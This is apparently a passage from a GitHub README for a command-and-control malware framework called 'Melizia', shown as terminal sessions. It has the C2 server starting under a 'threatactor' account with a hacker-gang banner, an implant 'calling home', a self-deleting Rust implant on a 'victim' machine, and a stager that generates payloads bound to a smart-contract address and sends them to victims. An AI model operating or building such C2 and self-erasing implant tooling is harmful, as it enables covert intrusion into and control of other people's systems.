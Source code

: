 ##### 5 - control!
```
threatactor@C2Server:~/C2_Melizia$ sudo python3.10 c2.py 
sudo: unable to resolve host TestingC2: Resource temporarily unavailable
 Melizia C2 
Pwned by trololo gang! kek kek keke kekw
- "SYSADMIN VOCÊ ESTÁ SENDO HIPNOTIZADO, ESQUEÇA QUE ESSA OWNADA EXISTIU"
        |) /\ |\ | /`  |
        |) \/ | \| \]  .
          __________         |) /\ |\ | /`  |
         /________ /|        |) \/ | \| \]  .
        |   X|I   | |
        |    |    | | |) /\ |\ | /`  |
        |IX  * III| | |) \/ | \| \]  .
        |    |    | |
        |____VI___| |         |) /\ |\ | /`  |
        |    /    | |         |) \/ | \| \]  .
        |   /     | |
        |  /      | |     |) /\ |\ | /`  |
        |( )      | |     |) \/ | \| \]  .
        |_________|/
                     |) /\ |\ | /`  |
                     |) \/ | \| \]  .


Ctrl+C is disabled! please use "exit" to exit from Melizia
Use "help" to see the available commands!
[!] DNS Server started

(Melizia)> A spaceship arrived!
"92994c589f860bab7af687fc3525d3de445812f52e951f5cf2d04432751a1b8c" Called home!
```

##### 6 - anddd, the artifact only runs once! (attempt to run the same artifact)
```
[Victim]

user@Ubuntu:$ ./target/x86_64-unknown-linux-musl/release/migrate 
user@Ubuntu:$ ./target/x86_64-unknown-linux-musl/release/migrate 
-bash: ./target/x86_64-unknown-linux-musl/release/migrate: No such file or directory <- Unlink

[Stager]
user@Ubuntu:~/Desktop/babagola$ python3 server_rust.py 

Server running!
> gen_payload 127.0.0.1:1337 0x564c3D9bBF15D7Be75f7468b4470f5d0B11bbD79 wiDt52uxNO7X7iUB8v0THw== b100ca9f                                                                                                  
Smart contract address :: 0x564c3D9bBF15D7Be75f7468b4470f5d0B11bbD79
Smart contract Keccak :: b100ca9f
Generated payload with hash :: b'67d6f46082e7ab5a48864d8e887bf571d1dca03161084392d1edf1738e03fdb6'

[Valid Victim]
> 127.0.0.1:46390 - ce0fba743a0694c32b5d3051c801c1518d0ecf719aa12e89da7ec3a133eb894f
Records: b'Yo/W/UQkmZ8etNrjiHCJC7EIWP9It2V3r1AWDaPnqx4='

New client incomming! preparing the missiles to attack :: ('127.0.0.1', 46390)
Sending smart contract address :: 0x564c3D9bBF15D7Be75f7468b4470f5d0B11bbD79

[Invalid Victim]
127.0.0.1:38478 - ce0fba743a0694c32b5d3051c801c1518d0ecf719aa12e89da7ec3a133eb894f
```
